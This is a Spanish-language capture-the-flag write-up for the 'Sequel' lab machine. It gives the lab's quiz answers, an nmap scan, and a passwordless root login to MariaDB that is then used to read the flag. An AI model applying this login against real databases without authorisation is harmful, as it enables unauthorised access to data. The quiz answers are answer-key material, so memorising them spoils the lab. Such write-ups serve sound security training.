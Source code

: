 # Máquina Sequel

## Contenido

1. [Introducción](#introducción)
2. [Escaneo de puertos](#escaneo-de-puertos)
4. [Explotación](#explotación)

## Introducción

Cuestionario:

Durante nuestro escaneo, ¿qué puerto encontramos sirviendo MySQL?

Respuesta: 3306.

¿Qué versión de MySQL desarrollada por la comunidad está ejecutando el objetivo?

Respuesta: MariaDB.

Al usar el cliente de línea de comandos de MySQL, ¿qué interruptor necesitamos usar para especificar un nombre de usuario de inicio de sesión?

Respuesta: -u.

¿Qué nombre de usuario nos permite iniciar sesión en esta instancia de MariaDB sin proporcionar una contraseña?

Respuesta: root.

En SQL, ¿qué símbolo podemos usar para especificar dentro de la consulta que queremos mostrar todo dentro de una tabla?

Respuesta: *.

En SQL, ¿con qué símbolo necesitamos terminar cada consulta?

Respuesta: ;.

Hay tres bases de datos en esta instancia de MySQL que son comunes a todas las instancias de MySQL.  ¿Cuál es el nombre del cuarto que es exclusivo de este anfitrión?

Respuesta: htb.

## Escaneo de puertos

Para hacer un escaneo de puertos se necesita la herramienta `nmap` y se ejecuta el siguiente comando:
```bash
nmap <IP>
```

Al ejecutarlo nos damos cuenta que tiene un puerto abierto, el puerto 3306 que es el puerto de MySQL.

## Explotación

Para explotar la máquina vamos a usar el mysql client, para esto se usa el siguiente comando:

```bash
mysql -u root -h <IP>
```

Al ser un usuario root no se necesita contraseña.

Una vez dentro de la consola de MySQL se ejecuta el siguiente comando para ver las bases de datos:

```sql
show databases;
```

Nos muestra una lista de bases de datos, de las cuales solo nos interesa la base de datos `htb`. Para seleccionar la base de datos se usa el siguiente comando:

```sql
use htb;
```

Una vez seleccionada la base de datos se ejecuta el siguiente comando para ver las tablas de la base de datos:

```sql
show tables;
```

Nos muestra dos tablas:

- config
- users

Para seleccionar la tabla `config` se usa el siguiente comando:

```sql
select * from config;
```

Y nos arroja varias columnas con información, la que nos interesa es la que dice `flag`, ya que contiene la flag del reto.

Con esto podemos decir:

> Máquina Sequel **Hackeada**



